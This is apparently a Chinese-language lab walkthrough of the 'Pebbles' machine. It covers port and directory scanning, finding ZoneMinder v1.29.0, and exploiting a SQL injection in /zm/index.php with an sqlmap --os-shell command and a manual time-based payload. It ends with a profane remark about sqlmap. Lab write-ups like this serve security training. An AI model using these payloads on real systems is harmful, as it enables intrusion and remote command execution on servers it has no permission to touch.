




# ✔️ Pebbles

## 建立立足点

### 信息收集

* Nmap枚举开放端口：

```bash
nmapm -sC -sV -p- -oA pebbles 192.168.244.52 --open
```

* 简单尝试输入IP地址查看是否有Web页面，发现有个pebbles登录框，尝试几个弱口令后登录失败，所以暂时先搁置：

<figure><figcaption></figcaption></figure>

* 枚举该Web页面是否有其他隐藏文件/目录，使用gobuster扫描后发现一个/zm目录：

```bash
gobuster dir -u http://192.168.244.52 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

<figure><figcaption></figcaption></figure>

* 发现了一个正在运行的程序：ZoneMinder Console，其版本号为：v1.29.0

<figure><figcaption></figcaption></figure>

### 漏洞查找

* 查找相关漏洞，发现该版本的ZoneMinder有个SQL注入的可利用漏洞：

<figure><figcaption></figcaption></figure>

### 漏洞利用

* 查看下载好的漏洞利用文件，指出/zm/index.php页面有注入漏洞，也给出了具体的Payload，并建议使用sqlmap会更容易操作，因此两种方法如下：

#### 方法1：sqlmap

* sqlmap太耗时，很鸡肋...
* 先拦截POST请求包，修改后保存文件为：sqli.req

```bash
sqlmap -r sqli.req -p limit -dbms mysql --os-shell --technique S
```


#### 方法2：手工注入

```bash
# Payload
view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)'#&minTime=1466674406.084434
```


### GET SHELL

* 用sqlmap获得shell后，查看当前权限发现已经是root权限了，但是获得的shell使用起来实在是太难受了，所以执行一个反弹shell，之后查找flag即可：



本例不需要进行权限提升。

<mark style="color:red;">**sqlmap就是他妈的神经病！！！**</mark>



